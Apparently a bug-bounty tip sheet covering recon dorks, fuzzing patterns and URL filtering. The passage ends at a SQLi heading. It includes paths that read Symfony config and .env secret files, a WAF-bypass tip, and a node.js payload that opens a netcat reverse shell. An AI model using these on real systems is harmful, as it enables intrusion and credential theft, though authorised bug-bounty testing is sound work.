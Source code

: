![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/Lets-Dig-into-the-Robust-Bug-Bounty-Program-Developed-by-Google.png)
# General tips
1-changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).

2-If there is a route to `/blog`
don't forget to test `/blog/.env` 

3-If you find Web frameworks like Symfony, add 

`/app_dev.php/_profiler/open?file=app/config/parameters.yml`
`/app_dev.php/_profiler/open?file=app/config/parameters.yml.dist`
`/app_dev.php/_profiler/open?file=app/config/security.yml`

to the wordlist, and you may get juicy data.

4-Use http://censys.io for finding hidden domain IPs and and try to open the website in the browser with only IP address this time WAF not restrict the request

5-get all inscope from h1
```
bbscope h1 -t Token -u username -b -o t
```
# Recon
1-Google Dorks for recon
```
site:*.google.*
site:google.*
site:*.google.com
site:*.google.-*.* -> (good results)
```

2-Extract JS files with katana:

`katana -u https://test.com -jc -d 2 | grep ".js$" | uniq | sort > js.txt`

3-fuzz
Finding hidden directory’s 
```
/.FUZZ
/-FUZZ
/~FUZZ
/../FuZZ
```
4-
```inurl:login | inurl:signin | intitle:login | intitle:signin | inurl:secure site:test.com```

5-find emails
```
grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}\b" file.txt
```
6-
```
cat urls.txt | grep ".txt$" > textfiles.txt
cat urls.txt | grep ".json$" > jsonfiles.txt
cat urls.txt | grep ".js$" > jsfiles.txt
cat urls.txt | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' > asphpfiles.txt
```
# RCE
1-If you discover a node.js template area, you should try triggerable node payload </br>
`require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`
# SQLi
sqlmap + waybackurls
```